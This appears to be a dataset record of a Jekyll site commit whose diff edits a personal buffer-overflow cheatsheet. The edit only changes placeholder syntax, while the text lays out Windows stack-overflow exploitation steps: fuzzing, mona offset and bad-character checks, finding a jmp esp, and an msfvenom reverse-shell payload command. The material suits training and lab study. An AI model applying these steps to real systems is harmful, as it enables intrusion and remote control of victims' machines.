

Before and after one commit to Liodeus/liodeus.github.io, a Jekyll site: the page built from _posts/2020-08-11-bufferOverflow.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add files via upload

```diff
--- a/_posts/2020-08-11-bufferOverflow.md
+++ b/_posts/2020-08-11-bufferOverflow.md
@@ -8,7 +8,7 @@ description: "Buffer Overflow personal cheatsheet"
 
 ### Check for windows protections :
 
-- C:\Users\thiba\Desktop\build\Release\winchecksec.exe <PATH.exe>
+- C:\Users\thiba\Desktop\build\Release\winchecksec.exe PATH.exe
 
 # Buffer Overflow "Normal" :
 
@@ -19,12 +19,12 @@ description: "Buffer Overflow personal cheatsheet"
 ### Fuzzing :
 
 - fuzzer.py / fuzzer2.py -> until app crash
-- /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <SIZE> -> SIZE higher than crash offset
+- /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l SIZE -> SIZE higher than crash offset
 
 ### Crash Replication & Controlling EIP :
 
 - modify payload variable by pattern (exploit.py)
-- !mona findmsp -distance <SIZE> -> SIZE same as pattern
+- !mona findmsp -distance SIZE -> SIZE same as pattern
 - EIP contains normal pattern : ... (offset XXXX) -> get the offset, modify offset variable (exploit.py)
 - modify retn variable by "BBBB", remove payload
 - Re-run exploit.py -> EIP should be "BBBB"
@@ -33,18 +33,18 @@ description: "Buffer Overflow personal cheatsheet"
 
 - !mona bytearray -b "\x00" -> copy results to payload variable
 - Re-run exploit.py
-- !mona compare -f C:\mona\oscp\bytearray.bin -a <ESP ADDRESS> -> copy bad chars
-- !mona bytearray -b "\x00+<BAD CHARS>" -> copy results to payload variable
-- !mona compare -f C:\mona\oscp\bytearray.bin -a <ESP ADDRESS> -> Repeat the badchar comparison until the results status returns
+- !mona compare -f C:\mona\oscp\bytearray.bin -a ESP_ADDRESS -> copy bad chars
+- !mona bytearray -b "\x00 + BAD_CHARS" -> copy results to payload variable
+- !mona compare -f C:\mona\oscp\bytearray.bin -a ESP_ADDRESS -> Repeat the badchar comparison until the results status returns
 - "Unmodified". This indicates that no more badchars exist.
 
 ### Finding a Jump Point :
 
-- !mona jmp -r esp -cpb "<BAD CHARS>" -> Choose an address and update exploit.py, setting the "retn" variable to the address, written backwards
+- !mona jmp -r esp -cpb "BAD_CHARS" -> Choose an address and update exploit.py, setting the "retn" variable to the address, written backwards
 
 ### Generate Payload :
 
-- msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "<BAD CHARS>" -f py -> Copy the generated shell code setting the payload variable
+- msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -b "BAD_CHARS" -f py -> Copy the generated shell code setting the payload variable
 
 ### Prepend NOPs :
 
```
